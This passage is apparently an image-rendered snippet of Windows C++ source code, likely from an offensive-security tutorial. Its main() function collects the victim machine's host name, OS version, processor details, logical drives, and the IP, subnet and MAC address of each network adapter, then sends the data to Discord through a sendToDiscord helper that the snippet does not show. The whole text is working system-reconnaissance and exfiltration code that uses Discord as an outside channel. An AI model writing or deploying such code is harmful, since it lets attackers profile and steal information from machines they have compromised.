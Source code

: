 ```cpp
}

int main(int argc, char* argv[]) {
  // test message
  const char* message = "meow-meow";
  sendToDiscord(message);

  char systemInfo[4096];

  // get host name
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);

  // get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // get logical drive information
  DWORD drives = GetLogicalDrives();

  // get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
    printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
    return 1;
  }

  snprintf(systemInfo, sizeof(systemInfo),
    "Host Name: %s, "
    "OS Version: %d.%d.%d, "
    "Processor Architecture: %d, "
    "Number of Processors: %d, "
    "Logical Drives: %X, ",
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  // add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
    "Adapter Name: %s, "
    "IP Address: %s, "
    "Subnet Mask: %s, "
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X",
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }

  // send system info to discord
  sendToDiscord(systemInfo);
  return 0;
```